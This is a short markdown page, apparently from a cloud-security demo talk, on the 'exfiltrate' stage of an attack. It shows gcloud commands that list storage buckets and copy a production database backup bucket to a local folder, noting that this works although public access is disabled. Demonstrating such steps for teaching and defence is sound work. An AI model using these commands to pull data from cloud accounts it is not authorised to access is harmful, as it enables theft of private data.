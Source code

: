 # Exfiltrate 
Now that we have some access, we can exfiltrate data.

## The database backup bucket
We saw, that there is a database backup in a Storage.
That storage can be downloaded - even though it has disabled public access.

```bash
gcloud storage buckets list | grep id

mkdir -p /root/demotalk/exfiltrate
cd /root/demotalk/exfiltrate

gcloud storage cp -r gs://conduit-database-backup-prod/ .
```
